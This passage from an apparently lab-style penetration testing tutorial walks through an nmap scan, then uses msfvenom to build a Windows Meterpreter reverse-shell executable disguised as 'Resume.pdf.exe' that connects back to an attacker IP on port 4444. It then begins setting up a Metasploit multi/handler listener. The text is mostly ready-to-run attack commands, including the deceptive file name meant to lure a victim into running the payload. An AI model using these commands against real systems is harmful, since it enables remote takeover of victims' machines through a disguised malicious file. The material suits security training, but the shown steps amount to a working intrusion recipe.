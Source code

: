 Example usage:

```bash
nmap -A 192.168.20.10 -Pn
```

---

### 💣 Step 3: Generate Malware with `msfvenom`

Explore available payloads:

```bash
msfvenom -l payloads
```

We'll use:

```
windows/x64/meterpreter_reverse_tcp
```

### Malware Generation Command:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Kali IP> LPORT=4444 -f exe -o Resume.pdf.exe
```

**Example:**

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe
```

- This creates a **reverse shell payload**.
    
- The output file `Resume.pdf.exe` will attempt to connect back to the attacker machine on port **4444** (default for Meterpreter).
    

Verify the file exists:

```bash
ls
file Resume.pdf.exe
```

---

### 🧲 Step 4: Setup a Listener with Metasploit

Launch Metasploit:

```bash
msfconsole
```

Select the **multi/handler** module:

```bash
use exploit/multi/handler
```
